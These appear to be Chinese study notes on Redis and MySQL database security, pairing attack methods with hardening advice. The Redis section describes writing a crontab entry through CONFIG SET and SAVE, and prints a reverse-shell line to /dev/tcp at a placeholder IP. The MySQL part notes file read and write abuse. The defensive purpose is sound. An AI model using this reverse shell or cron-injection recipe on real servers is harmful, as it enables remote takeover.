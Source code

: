 #### redis安全

redis设计初衷是在可信的环境下，提供高性能的数据库服务。所以没有设计过多的安全，甚至牺牲了一部分安全性，为了提高性能。



##### 黑客能做什么

- 连入redis，任意修改redis数据

- 权限提升，通过redis在服务器上执行命令，下面是权限提升方式

  - 连接redis

  - 写入任意key，value是想要执行命令，按照crontab格式拼接

    - ```
      */1* * * * /bin/bash -i >& /dev/tcp/1.2.3.4/80800>&1
      ```

  - 调用config_set方法，就是通过config命令，将持久化目录修改成/var/spool/cron

  - 调用save方法，发起持久化，将数据写入/var/spoon/cron

  - crontab对无法解析数据直接跳过，所以会执行value中对应的命令

##### 防护

- 密码认证：默认redis没有密码，加上密码性能下降20%左右，我们设置密码时候可以生成安全性强的密码，比如随机32位的数字+字母
- 授权：redis本身不提供授权，但是我们可以通过重命名的方式间接实现
  - 我们可以在redis配置文件中配置 rename-command CONFIG pUVEYEvdaGH2eAHmNFcDh8Qf9vOej4Ho，这样黑客就无法使用config功能了，我们可以通过字符串使用
- 数据加密：redis本身不提供加密功能，需要自己在客户端实现
- 最小权限原则：避免使用root用户启动redis服务端





#### mysql安全

##### 黑客能做什么

- 利用mysql提供的和本地文件交互的功能，通过load data infile读取本地文件，通过select....info dumpfile写入本地文件，这样可以读取密码文件，或者执行自己的命令



##### mysql防护

- mysql作为一个成熟的数据库，提供了很强的安全性

- 认证：mysql将用户信息存储在了mysql.user表中，来管理用户认证信息和权限信息

  - 密码过期
  - 密码重用限制
  - 密码强度评估
  - 密码失败保护

- 授权

  - ```
    GRANT ALL PRIVILEGES ON db.table TO user@"127.0.0.1" IDENTIFIED BY "password"
    ```

  - 通过Grant命令修改权限

  - mysql还定义了role，可以实现RBAC功能

- 审计

  - mysql本身不提供审计，但是可以通过插件实现，比如 McAfee 提供的mysql-audit以及MariaDB Audit Plugin。这些插件能够自动收集必要的 MySQL 操作信息，并推送到你的 ELK 等日志集群中，方便你进行持续的审计操作

- 加密

  - mysql提供传输过程中SSL加密

    - ```
       开启SSL加密配置
      [mysqld]
      ssl-ca=ca.pem
      ssl-cert=server-cert.pem
      ssl-key=server-key.pem
      ```

    - ```
      强制要求客户端连接使用SSL
      require_secure_transport=ON
      ```

      

  - 提供存储过程中硬盘加密

    - 通过keyring_file插件提供
    - 硬盘加密过程主要涉及两个密钥，一个主密钥和一个表密钥。表密钥由 MySQL 随机生成，通过主密钥进行加密后，存储在表头信息中。因此，每一个表格都拥有不同的密钥。

- 最小权限原则

  - 使用mysqld启动可以使mysql用户启动服务

![img](https://static001.geekbang.org/resource/image/cf/38/cfef962b04ea94100920d60188996638.jpeg?wh=1920*1080)